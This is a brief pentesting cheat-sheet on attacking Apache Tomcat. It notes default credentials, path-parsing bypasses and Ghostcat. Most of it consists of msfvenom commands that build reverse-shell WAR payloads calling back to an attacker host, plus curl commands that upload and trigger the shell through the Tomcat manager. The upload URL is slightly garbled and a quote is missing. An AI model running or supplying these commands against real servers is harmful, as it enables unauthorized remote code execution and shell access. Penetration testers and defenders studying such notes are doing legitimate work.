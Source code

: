 # Apache Tomcat

Default password: metasploit module auxillary scanner! 

nginx - tomcat look url parsing /..;/

## Ghostcat
/manager/
/manager-gui/
Upload should not necessarily require username and password
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# OR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# the FILE.jsp is catable in the .war shell 
curl -u '[USERNAME]:[PASSWORD]' --upload-file shell.war "http://$IP:8080/mana ger/text/deploy?path=/shell"
# Check the file
curl -u '[USERNAME]:[PASSWORD]' "http://$IP:8080/shell/$FILE.jsp
```

[Apache Ghostcat](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)